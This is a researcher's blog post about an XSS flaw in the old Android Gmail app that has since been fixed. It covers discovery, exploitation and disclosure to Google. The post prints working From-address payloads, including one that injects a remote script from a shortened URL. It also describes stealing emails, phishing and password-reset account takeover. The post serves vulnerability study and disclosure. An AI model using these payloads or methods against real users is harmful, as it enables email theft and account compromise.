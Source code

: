 ```yaml
---
title: Example of an Old Gmail XSS Exploit on Android
layout: post
tags: android
---
```


This post documents an XSS vulnerability that I discovered in the default Gmail app (v1.3) provided by Google in Android 2.1 and prior. All versions included in Android up to and including 2.1 seem to be affected, but the bug was unintentionally patched in Froyo (2.2) when Google updated the application to v2.3. The vulnerability let an attacker execute arbitrary Javascript in a local context on the phone, which made it possible to read the victim's emails (and the contacts mentioned in those emails) off of the phone, download certain files to phone (and open them), and more easily perform various other attacks that have previously been documented to take further control of the phone. Less seriously, it was also possible to crash the application repeatedly, resulting in a denial-of-service situation. The flaw has now been fixed via server-side patch to the Gmail API.

## Discovery

During a night of drinking a couple months ago, I got into a discussion with my roommate (his personal blog, cause I promised) about what characters are valid in email addresses. Although many filters only allow [a-zA-Z0-9_-] plus maybe a few more as valid characters in the local-part of the address, I was convinced that I had previously seen email addresses that used characters outside of that character set, as well as filters that allowed for a wider range of characters. As I normally do during bouts of drinking, I immediately consulted the RFC to settle the dispute (RFC 5322). Sure enough, it is apparently allowed, but discouraged, under the RFC to have an email address in the following format: "i<3whate\/er"@mydomain.com . As long as the quotation marks are present, it is technically a valid email address.

Seeing that this might trip up the ill-informed, I decided to see if Gmail handled this case correctly. I wrote up a quick test in Python and used one of the many open SMTP relays on campus (another rant for another time) to shoot an email at my Gmail account. While the main Gmail interface handled the problem with relative ease (there were some small pattern matching issues when replying), I was a little surprised to see something like the following when I opened the email on my phone:

Clearly, there was an XSS vulnerability in the Gmail app. The root cause, upon further investigation, was that the application was using the raw source email address as an ID for the contact presence image (the online/offline icon). An honest mistake, given the extremely limited use of special characters in email addresses, but serious nonetheless. To see if the issue affected all versions of Android, I sent one to my roommate (who has Froyo), and one to my rather outdated emulator running Android 1.5. The flaw was present in 1.5, but Froyo's version was unaffected. I haven't tested on versions between 1.5 and 2.1, but I would assume that the bug has been present the entire time. To prove that I could indeed execute Javascript, I first tried sending an email with the following from address:

"><script>window.location='http://google.com'</script>"@somedmn.com

However, this email got blocked by Gmail's spam filters. Although at first I thought that they might be aware of the vulnerability and had tried to mitigate it, it quickly became apparent that it was simply blocking all emails with "<" in the from address. Weird, but not a show stopper. To get around this, I used the fact that the XSS was present in the image tag and abused the onload attribute for execution:

" onload=window.location='http://google.com'"@somedmn.com

Sure enough, the email got through, and when viewed, I ended up looking at Google!
Android XSS Google

Android XSS Google
Exploitation

While redirecting to Google is fun and all, doing anything more complicated required some work. Achieving arbitrary execution was somewhat of a small challenge, given that the email address is limited by the RFC to 254 characters in length, I could not use any "<" symbols because of the Gmail filter, and, I could not use any quotation marks in the actual Javascript. To complicate matters, a simple document.write("<script>window.location='http://google.com'</script>") didn't work in this situation. However, in spite of these things, I was able to throw together a payload that updates the DOM correctly and creates a script tag with a remote source, weighing in at ~225 characters with the domain attached.

Escaped:
" onload='var f=String.fromCharCode;var d=document;var s=d.createElement(f(83,67,82,73,80,84));s.src=f(47,47,66,73,84,46,76,89,47,105,51,51,72,100,86);d.getElementsByTagName(f(72,69,65,68))[0].appendChild(s);' "@somedmn.com

Unescaped:
" onload='var d=document;var s=d.createElement("SCRIPT");s.src="//BIT.LY/i33HdV";d.getElementsByTagName("HEAD")[0].appendChild(s);' "@somedmn.com

Of course, this is in all likelihood not the best way I could of done this, but it worked well. I'd love to see better solutions if people have them.

EDIT: Here's a much cleaner and simpler version, courtesy of R (see comments). I especially liked the use of an attribute for storing the URL string.

" title='http://bit.ly/i33HdV' onload='d=document;(s=d.createElement(/script/.source)).src=this.title;d.getElementsByTagName(/head/.source)[0].appendChild(s)' "@somedmn.com

With this in place, I could now do some more interesting things. First, I dumped the page source so I could see better how exactly the application worked. The Gmail app is closed source and the page is dynamically generated in the Java code, so it was useful to get a dump of that . I also grabbed the Gmail apk and unzipped it, which gave me the Javascript API available to the application. I would provide this code, but I don't want to get into any copyright issues by distributing it here (it's pretty easy to get on your own, anyway). Finally, vaguely following Thomas Cannon's wonderful guide on Android reversing, I decompiled the Java bytecode of the app to get a better idea of what I might be able to do.

Probably the easiest way to exploit this vulnerability would be simply to launch a phishing attack that redirects users to a fake mobile Gmail login page, in the hopes that they will happily log in to continue viewing their emails. However, this was not a particularly interesting or creative thing to do with the vulnerability, simple though it may be.

After reading through some of the code, the main attack that jumped out at me was to dump emails off the phone. Using some very simple Javascript, one could simply grab all the emails on the phone and submit them to a remote server. Doing things this way might not be practical in a real attack though, given the time it would take to gather every email on the device. A better technique is to utilize cross origin requests to send each email as it's being queried, meaning that an attacker will get the emails as soon as they're queried (naive demo code here). To give the attacker more time to gather emails, one could run the dumping code while also doing something like periodically spamming the user with requests to add a contact, giving the attack precious time to collect more data.  Rather than dumping all the emails, though, a smarter use of this exploit would be to reset a user's password to another service, and then send an attack email soon afterwards. If the target opened it, we could simply grab the last 2 or 3 emails and easily gain access to the account we reset.

In addition to the email dumping, some other interesting functions caught my eye: download, preview, and showExternalResources. Although not used anywhere in the script.js file that I grabbed from the apk file, these methods were public in the decompiled Java API, meaning they could be called via Javascript in the window. Using these functions with the proper parameters, it was possible to download arbitrary files to the phone without permission, cause external resources to be rendered, and to automatically open various attached files (such as document files). Obviously, all of these would provide an easy vector for various attacks.

Beyond these more serious problems, it was also possible to do various odd things, like prompt the user to add a contact, set a label, open up a new email to a target of our choosing, or automatically open up a forward/reply message to an email. Overall though, the Javascript API in the app did a fairly good job at preventing abuse, at least when compared to platforms such as WebOS. I was unable in my tests to gain unrestricted access to sending permissions or further compromise data on the phone beyond the emails without using other vulnerabilities.

One must also keep in mind that beyond these vulnerability-specific threats, the flaw also allowed for much easier (and quieter) exploitation of other vulnerabilities that have been found by other researchers, including the data-stealing bug and various arbitrary code execution vulnerabilities in WebKit (like this). It also allowed for the exploitation of any number of file format bugs that might have been found in the future. Exploiting any of these would be as easy as getting a user to open up an email. Worse, the user would have no idea until it was too late, as one could set the From header appropriately to make the email look legitimate (i.e., to something other than Test :P ):

And yes, that email executes arbitrary Javascript (shown here trying to add the user "Test;--" to the contact list):



## Disclosure

I found the bug on 12/3/2010, and I contacted Google about 24 hours after I discovered it and confirmed it was exploitable. I received a quick initial response, but patching of the vulnerability on the server side was not completed until 1/28/11, apparently because of decreased staffing levels over the holiday. The patch was applied server-side in the Gmail API, and works by converting the special characters into their corresponding HTML entities. The Google security people were, as in all my previous communications with them, polite and professional, and I want to thank them for addressing the issue in a reasonable timeframe.

Overall, it was a pretty interesting vulnerability, and it was a good opportunity for me to learn a little more about Android. I had a good time familiarizing myself with the platform, and hopefully I will be able to do some more interesting things with it in the future. It has also definitely made me think twice before I open emails on my phone, which is probably for the best. Hopefully once these platforms become more mature, we won't see as many of these simple but serious vulnerabilities. However, if the maturation process we've observed in other security domains is any indication, I wouldn't hold your breath. It's going to take time.

